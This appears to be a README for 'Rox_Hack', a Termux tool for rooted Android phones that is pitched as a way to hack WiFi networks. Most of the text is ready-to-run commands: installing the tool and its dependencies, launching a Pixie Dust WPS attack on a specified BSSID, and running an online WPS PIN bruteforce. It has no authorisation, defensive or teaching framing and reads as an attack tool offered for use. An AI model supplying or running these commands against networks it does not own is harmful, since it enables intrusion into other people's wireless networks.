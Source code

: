 ## Rox_Hack

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://1.bp.blogspot.com/-9lzzogymHUQ/YS5hEDy_jyI/AAAAAAAAAoM/FuivT5DSF5sJbDBcWXrNtNbSF0Dnr5nHwCLcBGAsYHQ/s2340/Screenshot_2021-08-31-22-59-07-343_com.termux.jpg"></p>

### Installation :

```bash

$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/piomrox/Rox

$ cd Rox

$ chmod +x roxhack.py

$ sudo python roxhack.py --help

```

#### Example : `sudo python roxhack.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxhack.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxhack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxhack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

